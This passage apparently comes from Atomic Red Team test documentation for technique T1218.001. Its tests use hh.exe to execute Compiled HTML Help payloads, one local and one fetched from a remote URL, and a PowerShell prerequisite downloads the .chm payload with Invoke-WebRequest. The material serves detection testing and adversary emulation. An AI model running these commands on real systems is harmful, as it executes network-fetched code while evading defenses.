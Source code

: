 **auto_generated_guid:** 5cb87818-0d7c-4469-b7ef-9224107aebe8

#### Inputs:

| Name           | Description        | Type | Default Value                                               |
| -------------- | ------------------ | ---- | ----------------------------------------------------------- |
| local_chm_file | Local .chm payload | path | PathToAtomicsFolder&#92;T1218.001&#92;src&#92;T1218.001.chm |

#### Attack Commands: Run with `command_prompt`!

```cmd
hh.exe "#{local_chm_file}"
```

#### Dependencies: Run with `powershell`!

##### Description: The payload must exist on disk at specified location (#{local_chm_file})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{local_chm_file}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{local_chm_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.001/src/T1218.001.chm" -OutFile "#{local_chm_file}"
```

<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload

Uses hh.exe to execute a remote compiled HTML Help payload.
Upon execution displays an error saying the file cannot be open

**Supported Platforms:** Windows

**auto_generated_guid:** 0f8af516-9818-4172-922b-42986ef1e81d

#### Inputs:

| Name            | Description         | Type | Default Value                                                                                            |
| --------------- | ------------------- | ---- | -------------------------------------------------------------------------------------------------------- |
| remote_chm_file | Remote .chm payload | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.001/src/T1218.001.chm |

#### Attack Commands: Run with `command_prompt`!

```cmd
hh.exe #{remote_chm_file}
```
